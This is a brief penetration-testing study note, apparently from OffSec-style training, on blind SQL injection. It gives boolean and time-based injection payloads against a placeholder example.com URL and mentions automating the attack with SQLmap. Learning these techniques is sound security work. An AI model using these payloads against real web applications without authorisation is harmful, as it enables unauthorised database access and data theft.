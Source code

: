 ```yaml
---
title: Blind SQL Attacks
updated: 2025-04-22 11:43:40Z
created: 2025-04-22 11:37:08Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Blind SQL Injections
If the Web application URL takes an input field :eg 
`http://example.com/index.php?user=offsec`
Try the payload:
`http://example.com/index.php?user=offsec' AND 1=1 -- //`

**Time-Base Payload:**
(if query is true, the application will take 3 seconds to return)
`http://example.com/index.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //`
This can be automated with **SQLmap**